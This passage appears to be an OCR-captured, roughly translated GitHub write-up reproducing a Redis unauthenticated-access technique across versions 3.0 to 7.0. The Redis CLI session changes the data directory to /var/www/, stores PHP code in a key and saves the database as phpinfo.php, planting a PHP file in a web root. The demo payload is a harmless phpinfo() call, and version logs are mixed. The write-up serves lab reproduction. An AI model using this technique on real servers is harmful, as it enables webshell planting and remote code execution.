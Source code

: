 &nbsp;&nbsp;&nbsp;&nbsp; `var/www/` directory must exist, this experiment can be in redis-3.0.0, redis-4.0.0, redis-5.0.0, redis-6.0.0, redis-6.2 .7 can be reproduced, I have not verified other versions, but `redis-7.0.0` cannot reproduce, because 7.0 has further restrictions on some special parameters of `config set`, see the following `config set` dir /var/www/` error log.

&nbsp;&nbsp;&nbsp;&nbsp; `dir` If there is no configuration file specified by default, it is the directory in which to start the redis-server script storage directory, such as the following is the `/tmp/` directory will generate `dump.rdb` document.

```
# CONFIG SET protected-mode no
127.0.0.1:6379> info Server
# Server
redis_version:3.0.0
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:ffd58eb7da41810a
redis_mode:standalone
os:Linux 4.18.0-277.el8.x86_64 x86_64
arch_bits:64
multiplexing_api:epoll
gcc_version:8.5.0
process_id:529807
run_id:4c9ae3d11208b2a8416eb6d31678bfaec4e6c74e
tcp_port:6379
uptime_in_seconds:44
uptime_in_days:0
hz:10
lru_clock:9661853
config_file:

# Since version 3.2.0
127.0.0.1:6379> CONFIG get  protected*
(empty list or set)

127.0.0.1:6379>  CONFIG get  protected*
1) "protected-mode"
2) "yes"
127.0.0.1:6379> CONFIG get dir
1) "dir"
2) "/tmp"
127.0.0.1:6379> config set dir /var/www/ 
OK

# Since version 7.0.0
127.0.0.1:6379> config set dir /var/www/ 
(error) ERR CONFIG SET failed (possibly related to argument 'dir') - can't set protected config

127.0.0.1:6379> set xxx "\n\n\n<?php phpinfo() ;?>\n\n\n" 
OK
127.0.0.1:6379> config set dbfilename phpinfo.php 
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> CONFIG get  dir
1) "dir"
2) "/var/www"

$ cat  /var/www/phpinfo.php
REDIS0009�      redis-ver6.2.7�
�edis-bits�@�ctime��v�bused-mem�xU
 aof-preamble���xxx


<?php phpinfo() ;?>
```